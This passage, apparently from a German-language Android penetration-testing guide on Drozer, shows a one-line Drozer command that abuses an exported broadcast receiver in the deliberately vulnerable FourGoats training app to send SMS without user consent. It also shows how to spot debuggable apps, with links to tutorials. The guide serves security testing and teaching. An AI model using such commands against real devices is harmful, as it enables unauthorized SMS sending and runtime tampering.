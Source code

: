 In diesem Beispiel wird der [FourGoats apk](https://github.com/linkedin/qark/blob/master/tests/goatdroid.apk) Content Provider missbraucht, um **eine beliebige SMS** an ein nicht-premium Ziel **ohne Erlaubnis** des Benutzers zu senden.

![](<../../../images/image (415).png>)

![](<../../../images/image (573).png>)

Wenn Sie den Code lesen, müssen die Parameter "_phoneNumber_" und "_message_" an den Content Provider gesendet werden.
```bash
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats.broadcastreceivers SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message "Hello mate!"
```
### Ist debuggeable

Eine Produktions-APK sollte niemals debuggeable sein.\
Das bedeutet, dass Sie einen **Java-Debugger** an die laufende Anwendung anhängen, sie zur Laufzeit inspizieren, Haltepunkte setzen, Schritt für Schritt vorgehen, Variablenwerte sammeln und sogar ändern können. [Das InfoSec Institute hat einen ausgezeichneten Artikel](../exploiting-a-debuggeable-applciation.md) darüber, wie man tiefer gräbt, wenn Ihre Anwendung debuggeable ist und zur Laufzeit Code injiziert.

Wenn eine Anwendung debuggeable ist, wird sie im Manifest angezeigt:
```xml
<application theme="@2131296387" debuggable="true"
```
Sie können alle debugbaren Anwendungen mit **Drozer** finden:
```bash
run app.package.debuggable
```
## Tutorials

- [https://resources.infosecinstitute.com/android-penetration-tools-walkthrough-series-drozer/#gref](https://resources.infosecinstitute.com/android-penetration-tools-walkthrough-series-drozer/#gref)
- [https://github.com/mgcfish/mobiletools/blob/master/\_posts/2016-08-01-Using-Drozer-for-application-security-assessments.md](https://github.com/mgcfish/mobiletools/blob/master/_posts/2016-08-01-Using-Drozer-for-application-security-assessments.md)
- [https://www.hackingarticles.in/android-penetration-testing-drozer/](https://www.hackingarticles.in/android-penetration-testing-drozer/)
- [https://medium.com/@ashrafrizvi3006/how-to-test-android-application-security-using-drozer-edc002c5dcac](https://medium.com/@ashrafrizvi3006/how-to-test-android-application-security-using-drozer-edc002c5dcac)

## Mehr Informationen

- [https://blog.dixitaditya.com/android-pentesting-cheatsheet/](https://blog.dixitaditya.com/android-pentesting-cheatsheet/)



{{#include ../../../banners/hacktricks-training.md}}
